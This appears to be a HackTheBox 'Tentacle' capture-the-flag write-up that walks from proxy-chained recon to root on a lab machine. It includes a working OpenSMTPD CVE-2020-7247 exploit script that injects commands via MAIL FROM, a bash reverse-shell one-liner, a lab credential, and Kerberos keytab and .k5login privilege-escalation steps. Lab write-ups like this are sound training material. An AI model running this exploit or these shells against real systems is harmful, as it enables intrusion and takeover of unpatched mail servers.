

HTB Tentacle
============

HackTheBox: Tentacle Machine Writeup.

## Recon
```
┌──(root💀 kali)-[/home/kali/HTB/Tentacle/]
└─# nmap -sC -sV -oN scans/initial 10.10.10.224
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-23 21:07 EST
Nmap scan report for 10.10.10.224
Host is up (0.40s latency).
Not shown: 995 filtered ports
PORT     STATE  SERVICE      VERSION
22/tcp   open   ssh          OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 8d:dd:18:10:e5:7b:b0:da:a3:fa:14:37:a7:52:7a:9c (RSA)
|   256 f6:a9:2e:57:f8:18:b6:f4:ee:03:41:27:1e:1f:93:99 (ECDSA)
|_  256 04:74:dd:68:79:f4:22:78:d8:ce:dd:8b:3e:8c:76:3b (ED25519)
53/tcp   open   domain       ISC BIND 9.11.20 (RedHat Enterprise Linux 8)
| dns-nsid: 
|_  bind.version: 9.11.20-RedHat-9.11.20-5.el8
88/tcp   open   kerberos-sec MIT Kerberos (server time: 2021-01-24 02:11:05Z)
3128/tcp open   http-proxy   Squid http proxy 4.11

|_http-server-header: squid/4.11
|_http-title: ERROR: The requested URL could not be retrieved
9090/tcp closed zeus-admin
Service Info: Host: REALCORP.HTB; OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:8
```


## Webserver
http://10.10.10.224:3128


Got a username and a subdomain. Note these little hints, will help us later.
```
# username
j.nakazawa@realcorp.htb

# subdomain
srv01.realcorp.htb
```

Lets check if can find anything.
```
┌──(root💀 kali)-[/home/kali/HTB/Tentacle/]
└─# dnsenum --threads 64 --dnsserver 10.10.10.224 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt realcorp.htb

sorted the result v
ns.realcorp.htb.                        259200  IN    A        10.197.243.77
proxy.realcorp.htb.                     259200  IN    CNAME    ns.realcorp.htb.
ns.realcorp.htb.                        259200  IN    A        10.197.243.77
wpad.realcorp.htb.                      259200  IN    A        10.197.243.31
ns.realcorp.htb.                        259200  IN    A        10.197.243.77
```

So many domains and IPs. But that can’t be easily accessible we need to use proxychains to enum it.

Update the proxychains to avoid small errors.
```
$ sudo apt install proxychains4
```

And need to add these things to the bottom of that `/etc/proxychains4.conf` file, then start enum.
```
http  10.10.10.224 3128
http  127.0.0.1 3128
http  10.197.243.77 3128
```

Let’s start the nmap again.
```
┌──(root💀 kali)-[/home/kali/HTB/Tentacle/]
└─# proxychains -f /etc/proxychains.conf nmap -sT -Pn -oN scans/proxy 10.197.243.31
...[snip]...
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http

```

And add this to `/etc/hosts` file.
```
10.197.243.31 wpad.realcorp.htb
```
Since this server IP is mapped to wpad.realcorp.htb we can try to access a predefined file (wpad.dat) that contains the routes in the machine.
```
$ proxychains curl http://wpad.realcorp.htb/wpad.dat
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:80  ...  OK
function FindProxyForURL(url, host) {
    if (dnsDomainIs(host, "realcorp.htb"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.197.243.0", "255.255.255.0"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.241.251.0", "255.255.255.0"))
        return "DIRECT";

    return "PROXY proxy.realcorp.htb:3128";
}
```

Scanned that whole IP range and I found the IP 10.241.251.113 and there’s smtp port opened.
```
┌──(root💀 kali)-[/home/kali/HTB/Tentacle/]
└─# proxychains -f /etc/proxychains.conf nmap -sT -sV -Pn 10.241.251.113 
...[snip]...
Nmap scan report for 10.241.251.113
Host is up (1.1s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
Service Info: Host: smtp.realcorp.htb
...[snip]...
```
Fine there’s OpenSMTPD running let’s search for some exploits for this on the internet.


## Exploit
This is CVE-2020-7247. I simply modified that exploit to get the shell. Here is it:
```python
#!/usr/bin/env python3
import socket, time
import sys

if len(sys.argv) < 4:
    print("usage: getshell.py <host> <port> <command>")
    exit()

HOST = sys.argv[1]
PORT = int(sys.argv[2])
rev_shell_cmd = sys.argv[3]

payload = b"""\r\n

#0\r\n
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n 
#c\r\n
#d\r\n
""" + rev_shell_cmd.encode() + b"""
.
"""
for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
    except OSError as msg:
        s = None
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
    break
if s is None:
    print("Could not open socket")
    sys.exit(1)
with s:
    data = s.recv(1024)
    print('Received', repr(data))
    time.sleep(1)
    print('SENDING HELO')
    s.send(b"helo test.com\r\n")
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
    time.sleep(1)
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(b"RCPT TO:<j.nakazawa@realcorp.htb>\r\n")
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(b"DATA\r\n")
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(payload)
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(b"QUIT\r\n")
    data = s.recv(1024)
    print('RECIEVED', repr(data))
print("Exploited")
s.close()
```

Start a netcat listener.
```
$ nc -lvvnp 4444
```

Then run `getshell.py` script like this:
```
$ proxychains python3 getshell.py 10.241.251.113 25 'bash -c "exec bash -i &> /dev/tcp/IP/4444 <&1"'
```
Now, we got the shell !
```
┌──(root💀 kali)-[~]
└─# nc -lvvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.224] 52898
bash: cannot set terminal process group (201): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~# whoami && hostname && pwd
whoami && hostname && pwd
root
smtp.realcorp.htb
/root
```

## Privesc to user
Now, we got shell as root user of smtp. Let’s try to search for creds.

```
root@smtp:~# cd /home/j.nakazawa
cd /home/j.nakazawa
root@smtp:/home/j.nakazawa# cat .msmtprc
cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```

Quickly we got creds that’s located in /home/j.nakazawa

But sadly we can’t able to ssh with it. We need to use kerbos to generate a ticket and use that ticket to log in as the user, let’s do that.

Make sure you installed that, If you not then do it with the below command:
```
$ sudo apt install krb5-user
```

Add new host to `/etc/hosts` file.
```
10.10.10.224 srv01.realcorp.htb
```

And modify the `/etc/krb5.conf` file and adding the following lines below the square bracket sections:
```
[libdefaults]
        default_realm = REALCORP.HTB

[realms]
        REALCORP.HTB = {
                kdc = 10.10.10.224
        }

[domain_realm]
        srv01.realcorp.htb = REALCORP.HTB
```

Then we’re going to generate the ticket.
```
$ kinit j.nakazawa
Password: sJB}RM>6Z~64_
```
Check the available tickets.
```
$ klist
Ticket cache: FILE:/tmp/krb5cc_1000                                                          
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal                                  
04/15/2021 00:03:51  04/16/2021 00:03:51  krbtgt/REALCORP.HTB@REALCORP.HTB
```
**NOTE:** Depending on your system you might need to configure ssh to work with Kerberos. Edit `/etc/ssh/sshd_config` file:
```
KerberosAuthentication yes
KerberosOrLocalPasswd [yes|no]
KerberosTicketCleanup yes
```

There we go simply log in, this time it won’t ask the password. 
```
$ ssh j.nakazawa@10.10.10.224
```
If it asks for a password you done a mistake anywhere correct it and try again.
```
┌──(root💀 kali)-[~]
└─# ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Sat Jan 30 16:20:09 GMT 2021 from 10.10.14.56 on ssh:notty
There were 11 failed login attempts since the last successful login.
Last login: Sat Jan 30 14:36:20 2021 from 10.10.14.222
[j.nakazawa@srv01 ~]$ 
```

Good here we logged as j.nakazawa fastly grab the `user.txt`.
```
[j.nakazawa@srv01 ~]$ cat ~/user.txt
7e8**************3af23
```
And follow the next steps, hereafter it’s a headache to go forward.

## Privesc to admin

```
[j.nakazawa@srv01 ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
```
Fine while seeing the crontab there’s a file running named “log_backup.sh”, let’s view it.
```
[j.nakazawa@srv01 ~]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash
/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```
It backups everything from `/var/log/squid` to `/home/admin`

So if we put something in that squid folder then it’ll be copied to admin’s folder, fine now let’s create a log in file then we can log as admin coz it copied to that admin’s folder.

Now create a file named `.k5login`:
```
[j.nakazawa@srv01 ~]$ echo "j.nakazawa@REALCORP.HTB" >> .k5login
```

Then copy this file to `/var/log/squid` folder. We can’t able to go to that folder (permissions denied) but we can copy this file there.
```
[j.nakazawa@srv01 ~]$ cp .k5login /var/log/squid
```

After doing that try to log in as admin (try 2~3 times) sometimes it takes time to copy that log in file. But when it finishes the execution we can connect to admin, via ssh, in our local machine by it won’t ask for the password.

```
$ ssh admin@srv01.realcorp.htb
```
If it asks for a password you need to try it again.
```
┌──(root💀 kali)-[~]
└─# ssh admin@srv01.realcorp.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Fri May  7 19:03:17 BST 2021 from fe80::6588:7412:db10:612c%ens192 on ssh:notty
There were 6 failed login attempts since the last successful login.
Last login: Fri May  7 19:03:01 2021
[admin@srv01 ~]$ whoami; id
admin
uid=1011(admin) gid=1011(admin) groups=1011(admin),23(squid) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

## Admin to root !

Now we’re admin after enuming some time this file seems interesting “krb5.keytab” it’s located in `/etc` folder.
```
$ klist -k /etc/krb5.keytab
```
```
[admin@srv01 ~]$ klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```

A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password). You can use a keytab file to authenticate to various remote systems using Kerberos without entering a password.

Now we’re going to do that:
```
$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```
```
[admin@srv01 ~]$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:
```

Success! Check list_principals
```
$ list_principals
```
```
kadmin: list_principals
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
```

Run this:
```
$ add_principal root@REALCORP.HTB
```
Then the kadmin’s console tab will open, add this principle into it. And set the new password you want it.
```
kadmin: add_principal root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": kuy1
Re-enter password for principal "root@REALCORP.HTB":  kuy1
Principal "root@REALCORP.HTB" created.
kadmin:  exit
[admin@srv01 ~]$
```
Then it ask’s to create password, create a password there then exit that kadmin’s console, just type exit.

## Get root !

Then type ksu root and it ask’s for a password just type the password that you’ve created above in kadmin’s console. In my case `kuy1` is password.
```
[admin@srv01 ~]$ ksu root
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: kuy1
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 admin]# whoami; id
root
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@srv01 admin]# cat /root/root.txt
f889*************4fbb
```
Finally, we rooted this hard machine. Hope you enjoyed it.

Thank you.